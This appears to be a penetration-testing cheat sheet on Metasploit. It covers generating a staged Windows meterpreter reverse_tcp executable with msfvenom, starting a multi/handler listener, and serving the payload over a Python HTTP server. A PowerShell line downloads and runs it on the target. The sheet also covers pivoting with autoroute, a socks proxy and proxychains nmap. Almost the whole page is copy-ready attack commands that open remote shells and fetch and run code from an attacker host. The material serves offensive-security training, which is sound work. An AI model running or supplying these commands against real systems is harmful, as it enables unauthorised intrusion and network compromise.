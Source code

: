 [Offsec's Metasploit Page](https://www.offsec.com/metasploit-unleashed/) has a very good guide for Metasploit usage.

# Staged Reverse Shell

We create the staged executables that we will transfer on the targets

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe -o met.exe
```

And in msfconsole we start the listener

```shell
sudo msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <HOST-IP>
set LPORT <PORT>
set ExitOnSession false
run -j
```

We start the python server to serve the exploit on the machine

```shell
python3 -m http.server <PORT>
```

On the target we download the file and we run the executable

```powershell
iwr -uri http://<HOST-IP>:<PORT>/met.exe -Outfile met.exe
.\met.exe
```

## One liner Listener

We can use metasploit also via oneliner commands

```shell
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <LHOST>;set LPORT <LPORT>;run;"
```

# Auto-route and Proxy

Metasploit can also help us with port forwarding. We can set up the `autoroute module`

```shell
use multi/manage/autoroute
set session <SESSION>
run
```

And then we start the socks proxy

```shell
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set SRVPORT 1080
set VERSION 5
run -j
```

In this way all the traffic routed through the exploited machine will be redirected in our 127.0.0.1, port 1080. With proxychains we can run command thorugh the proxy and enumerate the internal network

```shell
proxychains nmap -sT -oN -p 80 192.168.1.0/24 
```